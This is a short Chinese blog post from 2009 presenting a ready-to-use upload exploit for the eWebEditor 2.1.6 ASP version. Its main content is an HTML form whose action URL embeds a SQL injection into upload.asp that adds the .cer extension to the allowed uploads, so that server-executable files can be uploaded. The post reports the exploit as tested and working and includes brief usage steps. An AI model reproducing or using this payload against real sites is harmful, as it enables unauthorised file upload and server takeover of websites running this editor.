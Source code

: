 ```yaml
---
title: eWebEditor 2.1.6 asp版 上传漏洞利用程序
description: eWebEditor2.1.6asp版上传漏洞利用程序，修改上传地址保存为HTM文件，打开可以直接上传CER文件，测试成功。上传后地址看源文件。
date: 2009-02-14 09:17:54
category: 漏洞信息
tags: ['eWebEditor', 'exploit', '漏洞信息']
post_id: 783
alias: eWebEditor-2.1.6-asp-upload-exploit
ViewNums: 5999
---
```


[**eWebEditor 2.1.6 asp版 上传漏洞利用程序**](/blog/ewebeditor-216-asp-upload-exploit)，修改上传地址保存为HTM文件，打开可以直接上传CER文件，测试成功。上传后地址看源文件。

<H1>[eWebEditor 2.1.6 asp版 上传漏洞利用程序](/blog/ewebeditor-216-asp-upload-exploit)----</H1><br><br>
<form action="http://127.1/e/upload.asp?action=save&type=IMAGE&style=luoye' union select S_ID,S_Name,S_Dir,S_CSS,S_UploadDir,S_Width,S_Height,S_Memo,S_IsSys,S_FileExt,S_FlashExt, [S_ImageExt]%2b'|cer',S_MediaExt,S_FileSize,S_FlashSize,S_ImageSize,S_MediaSize,S_StateFlag,S_DetectFromWord,S_InitMode,S_BaseUrl from ewebeditor_style where s_name='standard'and'a'='a" method=post name=myform enctype="multipart/form-data">
<input type=file name=uploadfile size=100><br><br>
<input type=submit value=Fuck>
</form>

